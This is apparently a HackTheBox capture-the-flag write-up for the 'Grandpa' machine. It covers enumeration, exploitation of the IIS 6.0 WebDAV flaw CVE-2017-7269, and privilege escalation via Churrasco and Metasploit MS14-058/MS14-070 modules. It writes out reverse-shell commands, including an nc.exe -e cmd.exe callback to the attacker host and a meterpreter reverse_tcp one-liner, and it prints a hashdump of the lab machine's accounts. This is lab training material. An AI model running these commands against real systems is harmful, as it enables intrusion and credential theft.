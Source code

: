 ```yaml
---
title: Grandpa Writeup
date: 2021-12-31
categories: [Writeup, HackTheBox]
tags: hackthebox OSCP WriteUp Windows Windows2003 WebDAV TJNULLsList MS14-058 MS14-070
image:
  src: /assets/Images-03-Grandpa/Grandpa-infocard.png
  width: 497px   # in pixels
  height: 317px   # in pixels
  alt: image alternative text
---
```

> In this writeup I have Grandpa from hackthebox with manual exploit and metasploit exploit. Target was vulnerable with CVE-2017-7269.

### Enumeration
#### rustscan
```bash
rustscan --accessible --ulimit 5000 -a 10.129.179.235 -- -p-
```
![](/assets/Images-03-Grandpa/2022-01-01-16-56-34.png)
_rustscan results_

#### nmap
```bash
sudo nmap -Pn -oN grandpa -A -O -p 80 10.129.179.235
```
![](/assets/Images-03-Grandpa/2022-01-01-17-02-05.png)
_nmap results_

#### davtest | web
```bash
davtest --url http://10.129.179.235/
```
![](/assets/Images-03-Grandpa/2022-01-01-17-08-36.png)
_davtest results_

#### gobuster | web
```bash
gobuster dir -u http://10.129.179.235/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![](/assets/Images-03-Grandpa/2022-01-01-19-07-26.png)
![](/assets/Images-03-Grandpa/2022-01-01-19-04-12.png)
_gobuster results_

Target running
- **OS** : Microsoft Windows 2003
`Microsoft-IIS/6.0` with extension of `WebDAV`. Almost all the http methods are allowed.
- There was no write permissions on target web root directory.
- Gobuster didn't gave anything useful. It just gave authenticated redirection.

### Exploitation
Target is vulnerable to [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269).
For exploitation we can use exploit code from [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repository.
Set-up ncat listener and run the exploit like below.
```bash
rlwrap nc -lvnp 1337

# python exploit.py <target_ip> <port> <attacker_ip> <port>
python exploit.py 10.129.179.235 80 10.10.17.81 1337
```
![](/assets/Images-03-Grandpa/2022-01-01-17-31-07.png)
_user shell_
**`And we get a shell with network account privilege.`**

### Post Exploitation
On checking current user privileges we got confirmation we can **`impersonate privileges`**.
```bash
whoami /priv
```
![](/assets/Images-03-Grandpa/2022-01-01-19-15-21.png)
_whoami /priv_

As Token Impersonation is enabled and target is Microsoft Windows 2003. Priv Esc is possible with
[Churrasco](https://github.com/Re4son/Churrasco/). `certutil` was not working properly so binary transfer was done using smbserver.
```bash
sudo smbserver.py a bins # at binary location
```
![](/assets/Images-03-Grandpa/2022-01-01-19-18-52.png)
_file transfer_

**`Churrasco`** also requires `ncat`. So it had to be transferred too.
Before execution nc listener is required at attacker machine end.
```bash
rlwrap nc -lvnp 9001 # attacker machine

churrasco.exe -d ".\nc.exe -e cmd.exe 10.10.17.81 9001" # victim machine
```
**`And we get a shell with highest privilege.`**
![](/assets/Images-03-Grandpa/2022-01-01-19-21-14.png)
_churrasco priv esc_

---

### Exploitation | Metasploit
With previous enumeration we confirmed target was vulnerable with CVE-2017-7269. Searchsploit didn't gave results. So on searching CVE in **`msfconsole`** we got 1 exploit.
```bash
msf6 > search 2017-7269

exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

![](/assets/Images-03-Grandpa/2022-01-01-19-36-43.png)
_searching exploit_

With below one liner we can exploit target with Metasploit module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/iis/iis_webdav_scstoragepathfromurl; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.180.7; run;"
```
![](/assets/Images-03-Grandpa/2022-01-01-19-35-34.png)
_meterpreter user shell_

### Post Exploitation | Metasploit
`getuid` failed as we got shell with unstable process. We have migrate this to another stable process for further exploitation.
```bash
meterpreter > getuid
[-] 1055: Operation failed: Access is denied.

meterpreter > ps
  ...
meterpreter > migrate 1924
```
After migration now we have stable meterpreter shell with network account privilege.
![](/assets/Images-03-Grandpa/2022-01-01-19-40-19.png)
_process migration_

For priv esc we can use **`local_exploit_suggester`**
![](/assets/Images-03-Grandpa/2022-01-01-19-51-30.png)
_local exploit suggester_

It gave multiple results. Selecting 2nd from top as 1st exploit could not be validated.
Using **`windows/local/ms14_058_track_popup_menu`**
![](/assets/Images-03-Grandpa/2022-01-01-19-54-53.png)
_MS14-058 priv esc_

`getuid` and `ps` didn't worked first time. After running `shell` and after going back to meterpreter it gave expected response.

**`And finally we get a shell with highest privilege.`**
![](/assets/Images-03-Grandpa/2022-01-01-19-55-45.png)
_MS14-058 priv esc_

Priv esc was also successful on trying another exploit **`windows/local/ms14_070_tcpip_ioctl`**
![](/assets/Images-03-Grandpa/2022-01-01-20-26-46.png)
_MS14-070 priv esc_

**`It gave stable shell with highest privilege.`**

Collecting all hashes after final compromise.
```hash
meterpreter > hashdump
Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e8ea325479740d:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

---

#### Failures and Learnings

```bash
searchsploit "Microsoft IIS 6.0"
searchsploit -m "windows/remote/41738.py"
```
Tried to use `Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow | windows/remote/41738.py` as this seemed reliable for moment. But it didn't worked.

![](/assets/Images-03-Grandpa/2022-01-01-20-46-35.png)
_41738 failed_

---

Using [explodingcan](https://github.com/danigargu/explodingcan)

It didn't worked for `nc shell`. It worked for developer with meterpreter shell but I wanted to avoid meterpreter.
![](/assets/Images-03-Grandpa/2022-01-01-21-04-13.png)
_explodingcan results_


Finally I used [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repo and it worked.
Even it had 48 stars in github which seems unreliable for this vulnerability.

---

meterpreter's `getsystem` will not always work even if 
`SeImpersonatePrivilege` is set to true.

![](/assets/Images-03-Grandpa/2022-01-01-19-43-09.png)
_getsystem failed_

---